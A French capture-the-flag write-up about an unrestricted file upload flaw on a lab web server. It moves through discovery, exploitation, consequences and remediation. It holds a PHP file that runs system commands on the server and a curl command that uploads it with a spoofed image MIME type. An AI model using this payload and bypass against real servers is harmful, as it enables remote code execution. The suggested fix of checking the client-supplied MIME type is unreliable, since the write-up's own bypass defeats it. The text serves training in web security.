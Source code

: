 ## Phase 1 : Découverte de la faille

### Analyse initiale
En analysant le site web, nous avons découvert une page d'upload accessible à l'adresse suivante :
```
http://10.14.200.61/?page=upload
```

Cette page contient un formulaire HTML permettant d'uploader des fichiers. Voici le code HTML du formulaire trouvé dans la page :

```html
<form enctype="multipart/form-data" action="#" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="100000" />
    Choose an image to upload:
    <br />
    <input name="uploaded" type="file" /><br />
    <br />
    <input type="submit" name="Upload" value="Upload">
</form>
```

### Points importants observés :
1. **Champ `uploaded`** : Ce champ permet de sélectionner un fichier à uploader.
2. **Champ `Upload`** : Ce champ est un bouton de soumission qui envoie la requête POST.
3. **Absence de validation côté client** : Aucun mécanisme JavaScript ou HTML ne semble limiter les types de fichiers pouvant être uploadés.

### Hypothèse
Le serveur pourrait accepter des fichiers malveillants (comme des scripts PHP) déguisés en fichiers légitimes (par exemple, des images). Si ces fichiers sont exécutés après l'upload, cela pourrait permettre d'exécuter du code arbitraire sur le serveur.

---

## Phase 2 : Exploitation de la faille

### Étape 1 : Création d'un fichier PHP malveillant
Nous avons créé un fichier PHP nommé malicious.php contenant le code suivant :

```php
<?php
// Recherche la chaîne 'The flag is :' dans tous les fichiers accessibles
system("grep 'The flag is :' / -R 2>/dev/null");
echo "hello";
?>
```

#### Explication du code :
- **`system("grep 'The flag is :' / -R 2>/dev/null");`** :
  - Cette commande exécute `grep` pour rechercher la chaîne `"The flag is : "` dans tous les fichiers accessibles sur le serveur.
  - L'option `-R` effectue une recherche récursive dans tous les répertoires.
  - `2>/dev/null` redirige les erreurs vers null pour éviter d'afficher des messages d'erreur.
- **`echo "hello";`** :
  - Affiche un message simple pour confirmer que le script a été exécuté.

---

### Étape 2 : Envoi du fichier avec `curl`
Nous avons utilisé la commande suivante pour uploader le fichier malveillant :

```bash
curl -i -X POST -F Upload=Upload -F "uploaded=@./malicious.php;type=image/jpg" "http://10.14.200.61/?page=upload" | grep flag
```

#### Explication de la commande :
- **`-i`** : Inclut les en-têtes HTTP dans la réponse pour vérifier si l'upload a réussi.
- **`-X POST`** : Spécifie que la requête est une requête POST.
- **`-F Upload=Upload`** : Simule le clic sur le bouton de soumission du formulaire.
- **`-F "uploaded=@./malicious.php;type=image/jpg"`** :
  - Envoie le fichier malicious.php dans le champ `uploaded`.
  - Définit le type MIME comme `image/jpg` pour contourner les éventuelles validations côté serveur.
- **`"http://10.14.200.61/?page=upload"`** : URL de la page d'upload.
- **`| grep flag`** : Filtre la réponse pour afficher uniquement les lignes contenant le mot `flag`.

---

### Étape 3 : Résultat
Après avoir exécuté la commande, le serveur a accepté le fichier et l'a exécuté. La commande `grep` dans le fichier PHP a permis de localiser et d'afficher un flag présent sur le serveur.

---

## Phase 3 : Problèmes engendrés par cette faille

### Conséquences possibles
1. **Exécution de code arbitraire** :
   - Un attaquant peut exécuter des commandes système sur le serveur, ce qui peut compromettre l'intégrité et la sécurité du système.
   - Par exemple, il pourrait lire des fichiers sensibles comme passwd ou installer un backdoor.

2. **Vol de données sensibles** :
   - Si des fichiers contenant des informations sensibles (comme des mots de passe ou des clés API) sont accessibles, un attaquant peut les exfiltrer.

3. **Déni de service (DoS)** :
   - Un attaquant pourrait uploader un script qui consomme beaucoup de ressources, provoquant un crash du serveur.

4. **Escalade de privilèges** :
   - Si le serveur exécute le script avec des privilèges élevés, un attaquant pourrait prendre le contrôle total du système.

---

## Phase 4 : Comment corriger la faille

### 1. **Limiter les types de fichiers acceptés**
   - Vérifiez le type MIME et l'extension des fichiers uploadés côté serveur.
   - Par exemple, acceptez uniquement les fichiers images (`image/jpeg`, `image/png`) :
     ```php
     $allowed_types = ['image/jpeg', 'image/png'];
     if (!in_array($_FILES['uploaded']['type'], $allowed_types)) {
         die("Invalid file type.");
     }
     ```

### 2. **Renommer les fichiers uploadés**
   - Renommez les fichiers uploadés pour empêcher l'exécution de scripts malveillants :
     ```php
     $new_name = uniqid() . '.jpg';
     move_uploaded_file($_FILES['uploaded']['tmp_name'], "/uploads/" . $new_name);
     ```

### 3. **Désactiver l'exécution dans le répertoire d'upload**
   - Configurez le serveur pour empêcher l'exécution de fichiers dans le répertoire d'upload.
   - Exemple pour Apache (`.htaccess`) :
     ```
     <Directory "/path/to/uploads">
         php_flag engine off
     </Directory>
     ```

### 4. **Valider les entrées utilisateur**
   - Vérifiez toutes les entrées utilisateur pour éviter les injections ou les manipulations.

### 5. **Limiter les permissions du serveur**
   - Exécutez le serveur avec un utilisateur ayant des permissions minimales pour limiter les dégâts en cas de compromission.

---

## Conclusion
Cette faille d'upload de fichier est une vulnérabilité critique qui peut être exploitée pour exécuter du code arbitraire sur le serveur. En suivant les bonnes pratiques de sécurité (validation des fichiers, désactivation de l'exécution dans les répertoires d'upload, etc.), vous pouvez protéger votre application contre ce type d'attaque.

---

The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8